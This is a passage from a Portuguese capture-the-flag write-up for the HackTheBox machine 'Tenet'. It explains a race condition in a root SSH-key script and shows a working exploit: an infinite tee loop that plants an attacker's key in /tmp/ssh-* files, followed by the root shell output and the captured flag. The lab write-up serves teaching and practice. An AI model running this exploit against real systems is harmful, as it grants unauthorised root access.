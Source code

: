 ```bash
    checkFile $tmpName
    /bin/cat $tmpName >>/root/.ssh/authorized_keys
    /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Analisando o script acima, notei uma possibilidade de hijack por conta de um race condition existente, onde na função "addKey" é criado um arquivo temporario, incluindo o seu conteúdo da chave pública e, após isso, seu conteúdo é adicionado no `/root/.ssh/authorized_keys`, possivelmente nos permitindo modificar este arquivo em tempo de execução para incluir outra chave SSH no lugar desta.

O desafio nesta parte é prever o nome do arquivo ssh em `/tmp`, mas que ao buscar por uma forma de adicionar um valor em múltiplos arquivos, o comando `tee` foi a melhor opção. O script abaixo foi criado e colocado em execução para infinitamente incluir o conteúdo de uma chave criada por mim em quaisquer arquivos que possuíssem o nome `ssh-*` em `/tmp`.

```bash
#!/bin/bash
while true; do
        echo "ssh-rsa AAAA..............BBBB= root@ubuntu" | tee /tmp/ssh-* 2> /dev/null;
done
```

Com o script acima em execução, executado o comando para habilitar o SSH para o usuário `root` e logo na sequência, o comando ssh para se conectar com a chave privada em nossa posse, onde obtivemos sucesso para conectar nesta máquina utilizando o SSH e obter a flag de root :smiley:

```bash
neil@tenet:/tmp$ sudo  /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ ssh -i tenet root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
[...]
root@tenet:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tenet:~# cat /root/root.txt
b05e57e997cda49b47757cd3f0f9ac43
```

Espero que tenham gostado!

Vejo vocês no próximo post! :smile:
